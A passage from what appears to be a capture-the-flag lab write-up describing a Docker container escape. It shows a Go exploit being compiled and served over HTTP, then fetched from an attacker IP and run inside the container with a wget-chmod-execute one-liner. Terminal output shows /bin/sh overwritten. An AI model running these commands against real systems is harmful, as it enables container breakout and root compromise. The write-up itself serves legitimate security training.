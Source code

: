 <br>And then I compiled it.<br>
```
go build main.go

python3 -m http.server

```
<br>![](/assets/images/0x41ly-blog-img/thenotebook/16.png)<br>
And as in the readme file of the exploit, I need two different shells. So, I ssh Again to get another shell.
And Don't forget to set a listener.
Then on the remote machine, I ran : 

```
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
wget http://10.10.16.28:8000/main && chmod +x main && ./main

```

```
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@6cd8df25e934:/opt/webapp# wget http://10.10.16.28:8000/main && chmod +x main && ./main
--2021-07-30 21:15:25--  http://10.10.16.28:8000/main
Connecting to 10.10.16.28:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2140816 (2.0M) [application/octet-stream]
Saving to: ‘main’

main                                    100%[============================================================================>]   2.04M  15.1KB/s    in 65s     

2021-07-30 21:16:31 (32.2 KB/s) - ‘main’ saved [2140816/2140816]

[+] Overwritten /bin/sh successfully
[+] Found the PID: 85
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc000452060}
root@6cd8df25e934:/opt/webapp# ./main
[+] Overwritten /bin/sh successfully
[+] Found the PID: 95
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0003b6060}
```

 And in the other shell I ran :  
 ```
 sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh

 ```
